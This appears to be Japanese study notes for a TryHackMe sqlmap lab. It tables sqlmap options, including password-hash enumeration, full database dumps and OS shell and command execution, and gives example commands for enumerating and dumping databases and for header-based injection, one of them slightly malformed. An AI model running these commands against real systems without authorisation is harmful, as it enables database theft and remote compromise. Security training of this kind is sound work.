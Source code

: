 # sqlmap

https://tryhackme.com/room/sqlmap

## コマンドオプション

### 基本オプション

| オプション            | 説明                                                  |
| --------------------- | ----------------------------------------------------- |
| `-u URL`, `--url=URL` | 対象の URL（例: "http://www.site.com/vuln.php?id=1"） |
| `--data=DATA`         | POST で送信するデータ文字列（例: "id=1"）             |
| `--random-agent`      | ランダムに選ばれた HTTP User-Agent ヘッダーを使用     |
| `-p TESTPARAMETER`    | テスト対象のパラメータ                                |
| `--level=LEVEL`       | 実行するテストのレベル（1〜5、デフォルトは 1）        |
| `--risk=RISK`         | 実行するテストのリスクレベル（1〜3、デフォルトは 1）  |
| `-h`                  | ヘルプ                                                |
| `-hh`                 | Advanced ヘルプ                                       |

### 列挙オプション

| オプション        | 説明                                                   |
| ----------------- | ------------------------------------------------------ |
| `-a`, `--all`     | すべての情報を取得する                                 |
| `-b`, `--banner`  | DBMS のバナー情報を取得する                            |
| `--current-user`  | DBMS の現在のユーザーを取得する                        |
| `--current-db`    | DBMS の現在のデータベースを取得する                    |
| `--passwords`     | DBMS ユーザーのパスワードハッシュを列挙する            |
| `--dbs`           | DBMS のデータベースを列挙する                          |
| `--tables`        | DBMS のデータベーステーブルを列挙する                  |
| `--columns`       | DBMS のデータベーステーブルのカラムを列挙する          |
| `--schema`        | DBMS のスキーマを列挙する                              |
| `--dump`          | DBMS のデータベーステーブルのデータをダンプする        |
| `--dump-all`      | すべての DBMS データベーステーブルのデータをダンプする |
| `--is-dba`        | 現在の DBMS ユーザーが DBA（管理者）かどうかを検出する |
| `-D <DB NAME>`    | 列挙対象の DBMS データベースを指定する                 |
| `-T <TABLE NAME>` | 列挙対象の DBMS データベーステーブルを指定する         |
| `-C COL`          | 列挙対象の DBMS データベーステーブルのカラムを指定する |

### OS アクセスオプション

| オプション       | 説明                                                                          |
| ---------------- | ----------------------------------------------------------------------------- |
| `--os-shell`     | 対話型の OS シェルを起動するプロンプトを表示                                  |
| `--os-pwn`       | OOB シェル、Meterpreter、または VNC の起動プロンプトを表示                    |
| `--os-cmd=OSCMD` | 指定した OS コマンドを実行する                                                |
| `--priv-esc`     | データベースプロセスユーザーの権限昇格を試みる                                |
| `--os-smbrelay`  | ワンクリックで OOB シェル、Meterpreter、または VNC を起動するプロンプトを表示 |
| `--sql-shell`    | 対話型の SQL シェルを起動するプロンプトを表示                                 |

## 実行方法

Burp 等でファイル保存したリクエストを利用するのが簡単。

```shell
# DB名列挙
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs

# DB指定してテーブル名列挙
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables

# テーブル指定して列名を列挙
sqlmap -r req.txt -D <database_name> -T <table_name> --columns

# 全てをダンプ
sqlmap -r req.txt-p  -D <database_name> --dump-all

# GETの例
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
```

```shell
# キャッシュを使わず、新しくデータを取得しなおす
--flush-session

# 自動的にデフォルトの選択肢を選んで実行する
--batch
```

```shell
# IPアドレスを記録しているサーバーに対して
sqlmap –dbms mysql --headers="X-forwarded-for:1*" -u http://<ip>
```

```sh
--random-agent --current-db
```
